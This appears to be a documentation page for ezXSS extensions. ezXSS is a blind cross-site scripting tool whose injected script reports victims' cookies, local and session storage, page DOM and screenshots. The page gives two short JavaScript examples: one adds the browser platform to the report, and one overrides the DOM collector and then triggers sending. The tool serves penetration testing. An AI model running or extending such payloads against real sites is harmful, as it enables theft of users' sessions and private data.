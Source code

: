 #### Example: Adding Custom Data to Reports

```javascript
// <ezXSS extension>
// @name              Platform Info
// @description       Adds the user's platform to the report
// @author            ssl
// @version           1.0
// </ezXSS extension>

ez_rD.extra = {"platform": window.navigator.platform};
```

This simple extension adds the user's platform information via the `extra` field in the report.

#### Example: Overriding a Default Function

You can override any of the default functions to change their behavior. For instance, to modify how the DOM is collected:

```javascript
// <ezXSS extension>
// @name              Custom DOM Collector
// @description       Collects only the body HTML instead of the full document
// @author            ssl
// @version           1.0
// </ezXSS extension>

function ez_hL() {
    // Override the default ez_hL function
    try {
        ez_rD.dom = ez_n(document.body.outerHTML);
    } catch (e) {
        ez_rD.dom = "";
    }
    // Call other necessary functions
    ez_s();
    ez_nW();
    ez_cb(ez_rD, ez_dr2);
    ez_cp();
    ez_p();
}
```

#### The ez_rD Object
The ez_rD object stores all data sent in the report. By default, it includes fields like `uri`, `cookies`, `referer`, `user-agent`, `origin`, `localstorage`, `sessionstorage`, `dom`, `payload`, and `screenshot`.

To add custom fields to the report, you must use the `.extra` property of the `ez_rD` object:

- If `.extra` is set to a JSON object, each key-value pair will be added as a separate field in the report.
- If `.extra` is a string, it will be added as a single 'extra' field.
